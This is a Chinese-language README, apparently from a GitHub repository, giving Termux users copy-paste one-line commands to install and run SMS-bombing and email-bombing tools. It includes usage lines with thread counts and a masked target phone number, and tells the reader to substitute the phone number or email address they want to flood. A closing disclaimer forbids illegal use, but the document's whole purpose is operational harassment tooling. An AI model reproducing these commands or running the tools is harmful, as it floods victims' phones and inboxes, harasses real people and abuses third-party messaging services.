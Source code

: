 # 概述
  
- 如果你还没有下载termux可以点击[这里](https://f-droid.org/en/packages/com.termux/)
- 若你没有科学环境可以自行搜索下载，或者点击[这里](https://m.youxibao.com/app/15333.html)
  
- 假如你在代码使用的过程中出现类似于的选项
>Do you want to continue? [Y/n]
>
- 直接回车enter即可
  
# 一键代码使用
   ## 短信轰炸
  
  `pkg install git -y && pkg install python -y && pkg install openssl -y && git clone https://github.com/AdminWhaleFall/SMSBoom.git/ && cd SMSBoom && pip install -r requirements.txt && python smsboom.py
`
- 直接粘贴代码进入即可，后续可以直接使用下列指令
- 
  `cd SMSBoom;python smsboom.py run -t 64 -p 184****9269 -f 60 `
  将手机号替换为你需要轰炸的手机号

  ## 邮箱轰炸
  
  在使用之前配置
  
 `pkg install git -y && pkg install php -y && pkg install python -y && git clone https://github.com/cat-bucket/mail-bomber && cd mail-bomber
`
 

### 无需邮箱但无法指定内容
   
更新接口（可选）

`php index.php update-nodes`

后续使用

`cd mail-bomber;php index.php start-bombing 邮箱`

替换要轰炸的邮箱


### 邮箱轰炸 (需邮箱但可以指定内容)

   `cd mail-bomber;python cat.py`
   
   按照提示输入即可


# 免责声明
本库为对各种程序的简单调用提供，仅供参考，禁止用于商业及非法用途。使用一键指令造成的事故与损失，与作者无关


